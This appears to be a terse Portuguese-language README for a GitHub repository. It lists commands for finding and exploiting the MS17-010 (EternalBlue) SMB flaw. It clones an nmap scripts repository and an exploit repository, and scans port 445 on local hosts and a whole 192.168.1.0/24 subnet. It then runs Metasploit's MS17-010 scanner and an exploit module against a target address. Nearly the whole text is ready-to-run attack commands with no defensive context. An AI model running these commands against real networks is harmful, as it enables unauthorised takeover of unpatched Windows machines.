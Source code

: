 git clone https://github.com/vaamonde/nmap-nse-scripts
 
git clone https://github.com/vaamonde/exploit

Verificar versão do NMAP:	nmap --version<br>
				man nmap
							
nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse localhost

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.0/24

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.150

Atualizar o Metasploit:		msfupdate<br>
Acessar o Metasploit:		msfconsole<br>
Acessar o Modo Scan:		use auxiliary/scanner/smb/smb_ms17_010<br>
				show options<br>
				set rhosts 192.168.1.1<br>
				exploit<br>
							
Acessar o modo Exploit:		use exploit/ms17_010/ms_17_010<br>
				show options<br>
				set rhosts 192.168.1.1<br>
				exploit<br>
